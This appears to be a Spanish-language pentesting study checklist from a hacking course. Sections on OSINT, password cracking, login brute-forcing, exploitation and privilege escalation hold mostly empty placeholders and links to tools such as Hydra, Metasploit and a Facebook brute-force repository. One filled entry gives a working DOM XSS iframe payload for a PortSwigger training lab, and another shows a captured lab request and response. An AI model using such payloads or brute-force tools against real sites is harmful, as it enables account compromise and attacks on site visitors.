*   [ ] SHODAN👈 --------------------------------->[https://www.shodan.io/ ](https://www.shodan.io/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/shodan)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OSRFrameworK👈 --------------------------------->[https://www.kali.org/tools/osrframework/](https://www.kali.org/tools/osrframework/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SN0INT👈 --------------------------------->[https://www.kali.org/tools/sn0int/](https://www.kali.org/tools/sn0int/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OSINTGRAM👈 --------------------------------->[https://github.com/Datalux/Osintgram](https://github.com/Datalux/Osintgram)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TWOSINT👈 --------------------------------->[https://github.com/falkensmz/tw1tter0s1nt](https://github.com/falkensmz/tw1tter0s1nt)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X FACEBOOK👈 --------------------------------->[https://intelx.io/tools?tab=facebook](https://intelx.io/tools?tab=facebook)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X PERSONAS👈 --------------------------------->[https://intelx.io/tools?tab=person](https://intelx.io/tools?tab=person)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X TELEFONOS👈 --------------------------------->[https://intelx.io/tools?tab=telephone](https://intelx.io/tools?tab=telephone)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X Ubicación 2 Mapa👈 --------------------------------->[https://intelx.io/tools?tab=location](https://intelx.io/tools?tab=location)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X IMAGEN👈 --------------------------------->[https://intelx.io/tools?tab=image](https://intelx.io/tools?tab=image)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X NOMBRE DE USUARIO👈 --------------------------------->[https://intelx.io/tools?tab=username](https://intelx.io/tools?tab=username)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X HASH INVERSA👈 --------------------------------->[https://intelx.io/tools?tab=hash](https://intelx.io/tools?tab=hash)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X ARCHIVOS👈 --------------------------------->[https://intelx.io/tools?tab=file](https://intelx.io/tools?tab=file)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X VIN VEHICULOS👈 --------------------------------->[https://intelx.io/tools?tab=vin](https://intelx.io/tools?tab=vin)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩



<details>

<summary>⛓️ HASHES Y DESENCRIPTADOS ❌</summary>

### HASHES Y DESENCRIPTADOS

*   [ ] JOHN THE RIPPER👈 --------------------------------->[https://www.kali.org/tools/john/ ](https://www.kali.org/tools/john/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/john-the-ripper)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] JOHN THE RIPPER👈 --------------------------------->[https://www.kali.org/tools/john/ ](https://www.kali.org/tools/john/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/john-the-ripper)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] JOHN THE RIPPER👈 --------------------------------->[https://www.kali.org/tools/john/ ](https://www.kali.org/tools/john/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/john-the-ripper)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HASHCAT👈 --------------------------------->[https://www.kali.org/tools/hashcat/](https://www.kali.org/tools/hashcat/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RAINBOWCRACK👈 --------------------------------->[https://www.kali.org/tools/rainbowcrack/](https://www.kali.org/tools/rainbowcrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OPHCRACK👈 --------------------------------->[https://www.kali.org/tools/ophcrack/](https://www.kali.org/tools/ophcrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKSTATION👈 --------------------------------->[https://crackstation.net/](https://crackstation.net/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AIRCRACK-NG👈 --------------------------------->[https://www.kali.org/tools/aircrack-ng/ ](https://www.kali.org/tools/aircrack-ng/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/aircrack-ng-wireless-wi-fi-auditoria-y-fuerza-bruta-a-handshake)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AIRCRACK-NG👈 --------------------------------->[https://www.kali.org/tools/aircrack-ng/ ](https://www.kali.org/tools/aircrack-ng/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/aircrack-ng-wireless-wi-fi-auditoria-y-fuerza-bruta-a-handshake)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CAIN Y ABEL👈 --------------------------------->[https://github.com/xchwarze/Cain](https://github.com/xchwarze/Cain)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DAVEGRO1👈 --------------------------------->[https://github.com/octomagon/davegrohl](https://github.com/octomagon/davegrohl)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ElcomSoft Distributed Password Recovery👈 --------------------------------->[https://www.elcomsoft.es/edpr.html](https://www.elcomsoft.es/edpr.html)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACK RAR👈 --------------------------------->[https://github.com/TermuxHackz/Crack-rar](https://github.com/TermuxHackz/Crack-rar)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACK NINJA RAR👈 --------------------------------->[https://github.com/SHUR1K-N/RARNinja-RAR-Password-Cracking-Utility](https://github.com/SHUR1K-N/RARNinja-RAR-Password-Cracking-Utility)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NCRACK👈 --------------------------------->[https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CEWL WORDLIST👈 --------------------------------->[https://www.kali.org/tools/cewl/ ](https://www.kali.org/tools/cewl/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/cewl)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRUNCH WORDLIST👈 --------------------------------->[https://www.kali.org/tools/crunch/ ](https://www.kali.org/tools/crunch/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/crunch)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] P4Iwordlists👈 --------------------------------->[https://paimonhacking.gitbook.io/p4im0n\_h4cking/curso-hacking-con-python/generador-de-wordlist-para-fuerza-bruta-p4iwordlist.py-1.2v](https://paimonhacking.gitbook.io/p4im0n\_h4cking/curso-hacking-con-python/generador-de-wordlist-para-fuerza-bruta-p4iwordlist.py-1.2v)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CYBERCHEF👈 --------------------------------->[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CYBERCHEF👈 --------------------------------->[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CYBERCHEF👈 --------------------------------->[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BASE64 DECODE👈 --------------------------------->[https://www.base64decode.org/](https://www.base64decode.org/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BASE64 DECODE👈 --------------------------------->[https://www.base64decode.org/](https://www.base64decode.org/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨



<details>

<summary>💪 FUERZA BRUTA A LOGINS ❌</summary>

### FUERZA BRUTA A LOGINS

*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NCRACK👈 --------------------------------->[https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] 161 ONESIXTYONE👈 --------------------------------->[https://www.kali.org/tools/onesixtyone/](https://www.kali.org/tools/onesixtyone/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THC-PPTP-BRUTER👈 --------------------------------->[https://www.kali.org/tools/thc-pptp-bruter/](https://www.kali.org/tools/thc-pptp-bruter/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKMAPEXEC👈 --------------------------------->[https://www.kali.org/tools/crackmapexec/](https://www.kali.org/tools/crackmapexec/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CROWBAR RDP👈 --------------------------------->[https://www.kali.org/tools/crowbar/](https://www.kali.org/tools/crowbar/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THE CRACKER PDF,ZIP,RAR,LOGIN👈 --------------------------------->[https://github.com/XDeadHackerX/The\_Cracker](https://github.com/XDeadHackerX/The\_Cracker)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THC-HYDRA👈 --------------------------------->[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THC-HYDRA👈 --------------------------------->[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] T14M4T scaneo de servicios en puertos y fuerza bruta automatizado👈 --------------------------------->[https://github.com/MS-WEB-BN/t14m4t](https://github.com/MS-WEB-BN/t14m4t)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FACEBOOK-BRUTE-FORCE👈 --------------------------------->[https://github.com/likhonsible/Facebook-Brute-Force](https://github.com/likhonsible/Facebook-Brute-Force)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧



<details>

<summary>🛠️ SCRIPT DE EXPLOIT Y PAYLOADS ✔️</summary>

### SCRIPT DE EXPLOIT Y PAYLOADS

*   [x] PORTSWIGGER👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    <iframe src="https://0a96001003dc9730810d5ce400eb00b6.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
    ```

    * CONCLUSION:NO SE TERMINO DE COMPRENDER BIEN LA EJECUCION; PERO TUVIMOS QUE MANDAR ESTA CARGA UTIL DESDE NEUSTRO SERVIDOR MALISIOSO A LA VICTIMA Y A ESTA SE ELE EJECUTARIA LAS OPCIONES DE IMPRECION DE LA URL INDICADA EN SRC Y NADAD MAS; SE COMPLICO HASTA QUE AL FIN LO TOMO EL LABORATORIO, LUEGO DE PROBAR MUCHAS CARGAS POR NUESTRA CUENTA.

***

***

</details>

🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥



<details>

<summary>🤯 EXPLOTACION ✔️</summary>

### EXPLOTACION

*   [x] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite)

    ```python
    REQUEST NORMAL :




    GET /post?postId=5 HTTP/2
    Host: 0a96001003dc9730810d5ce400eb00b6.web-security-academy.net
    Cookie: session=hrpstTIw3ZNzjsMATxZisZXH5xrq9PVC
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Linux"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a96001003dc9730810d5ce400eb00b6.web-security-academy.net/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: es-419,es;q=0.9,en;q=0.8
    
    
    
    
    
    RESPONSE NORMAL:
    
    
    
    HTTP/2 200 OK
    Content-Type: text/html; charset=utf-8
    Content-Length: 7088
    
    <!DOCTYPE html>
    <html>
        <head>
            <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
            <link href=/resources/css/labsBlog.css rel=stylesheet>
            <title>DOM XSS in jQuery selector sink using a hashchange event</title>
        </head>
        <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            <div id="academyLabHeader">
                <section class='academyLabBanner'>
                    <div class=container>
                        <div class=logo></div>
                            <div class=title-container>
                                <h2>DOM XSS in jQuery selector sink using a hashchange event</h2>
                                <a id='exploit-link' class='button' target='_blank' href='https://exploit-0ae00026033497c481d25bd20118000d.exploit-server.net'>Go to exploit server</a>
                                <a class=link-back href='https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event'>
                                    Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                    <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                        <g>
                                            <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                            <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                        </g>
                                    </svg>
                                </a>
                            </div>
                            <div class='widgetcontainer-lab-status is-notsolved'>
                                <span>LAB</span>
                                <p>Not solved</p>
                                <span class=lab-status-icon></span>
                            </div>
                        </div>
                    </div>
                </section>
            </div>
            <div theme="blog">
                <section class="maincontainer">
                    <div class="container is-page">
                        <header class="navigation-header">
                            <section class="top-links">
                                <a href=/>Home</a><p>|</p>
                            </section>
                        </header>
                        <header class="notification-header">
                        </header>
                        <div class="blog-post">
                        <img src="/image/blog/posts/57.jpg">
                        <h1>Swipe Left Please</h1>
                        <p><span id=blog-author>Scott Com</span> | 12 February 2024</p>
                        <hr>
                        <p>I don&apos;t know if you&apos;ve ever been on a dating site, but if you&apos;re female I&apos;d suggest you don&apos;t waste your time. And trust me, if you think by paying for a subscription you&apos;ll get a better selection of potential suitors, think again.</p>
                        <p>The gallery of images looks like those books they whip out in CSI, a book of mugshots so a witness can identify the perpetrator. Honestly, they all look like convicts, mostly serial killers. I physically recoiled when I started browsing through. I don&apos;t want to appear mean, but I&apos;m thinking if you&apos;re looking to attract a female; a shave, maybe a shower, would be the right step before taking that selfie. And what&apos;s with the ski wear? Head covered, eyes covered by goggles, what are they trying to hide? If they think they look worse than the others, and are in disguise, I don&apos;t want to invite them to take the ski gear off.</p>
                        <p>I took an unflattering photo, not easy for me as I&apos;m a big fan of the beauty filter. But, I was only there to see what goes on behind the scenes. My profile information offered up the bare minimum to meet the required word count. And yet, within the space of 5 minutes, I&apos;d had 25 views, one message, and a wink. That to me screams desperate. Trust me, my profile didn&apos;t suggest I was much of a catch.</p>
                        <p>I couldn&apos;t read the message, if I wanted to I needed to put my hand in my wallet. I was teased with the first few words. It read, &apos;I can&apos;t because I&apos;m on a free trial&apos;. What a tight ass. If you want to communicate with me, don&apos;t send me a message I can&apos;t read so I have to shell out the money.</p>
                        <p>There was a small part of me that momentarily thought it was a little bit exciting, and I might find a knight in shining armor. But not to be, 8 minutes in and I deleted my account.</p>
                        <div/>
                        <hr>
                        <h1>Comments</h1>
                        <section class="comment">
                            <p>
                            <img src="/resources/images/avatarDefault.svg" class="avatar">                            El Bow | 20 February 2024
                            </p>
                            <p>Could you do a blog on the needy? I want to show my husband he&apos;s always whining about nothing.</p>
                            <p></p>
                        </section>
                        <section class="comment">
                            <p>
                            <img src="/resources/images/avatarDefault.svg" class="avatar">                            Peg Up | 01 March 2024
                            </p>
                            <p>I can&apos;t say I&apos;m surprised you wrote this.</p>
                            <p></p>
                        </section>
                        <hr>
                        <section class="add-comment">
                            <h2>Leave a comment</h2>
                            <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
                                <input required type="hidden" name="csrf" value="Uy0SoJbkY9bWyecJrRz9nESJsH3BfCuB">
                                <input required type="hidden" name="postId" value="5">
                                <label>Comment:</label>
                                <textarea required rows="12" cols="300" name="comment"></textarea>
                                        <label>Name:</label>
                                        <input required type="text" name="name">
                                        <label>Email:</label>
                                        <input required type="email" name="email">
                                        <label>Website:</label>
                                        <input pattern="(http:|https:).+" type="text" name="website">
                                <button class="button" type="submit">Post Comment</button>
                            </form>
                        </section>
                        <div class="is-linkback">
                            <a href="/">Back to Blog</a>
                        </div>
                    </div>
                </section>
                <div class="footer-wrapper">
                </div>
            </div>
        </body>
    </html>
    ```

    * CONCLUSION: NO SE OBSERVA NADA.

***

***

</details>

⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔



<details>

<summary>💠 ESCALADA DE PRIVILEGIOS WINDOWS ❌</summary>

### ESCALADA DE PRIVILEGIOS WINDOWS

*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/57/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/57/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/57/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet)

    ```python
    # Espacio para fragmento de código Python -->
    ```

